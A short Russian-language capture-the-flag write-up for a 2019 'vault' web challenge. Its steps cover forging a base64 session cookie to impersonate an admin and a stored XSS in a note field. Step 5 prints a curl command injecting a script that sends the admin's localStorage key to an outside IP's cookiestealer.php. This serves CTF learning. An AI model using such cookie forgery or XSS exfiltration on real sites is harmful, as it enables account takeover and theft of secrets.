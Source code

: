 1. Находим дополнительные флаги с помощь dirsearch  в   http://vault.ctf2019.rocks/manage и 2-й в initialVector в notes.js

2. Переводим куку юзера из base64.  Видим, что одинаковые буквы в имени пользователя соответствуют одинаковым цифрам.

3. Создаем пользователя admina. Убираем последнюю цифру имени пользователя из куки. Переводим куку обратно в base64 и передаем ее
в http://vault.ctf2019.rocks/ . Видим запись flag, но она зашифрована.

4. Тестируем на xss. Находим, что  выполняется скприпт, если передать незашифрованный text <script>alert("TEST");</script> в addnote.

5. Делаем запрос к кукой админа что забрать его localStorage->key:
```
src="<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(window.localStorage.getItem('key'));</script>"
curl "http://vault.ctf2019.rocks/addnote.php?title=aaax&text=$src"  -H 'Cookie: session=MTYsMjEsMjgsMjQsMzE6OjoxMTM3'  -v
```
получаем ключ админа

6. добавляем ключ в localStorage->key. Получаем расшифрованный флаг в записи flag admin-a.

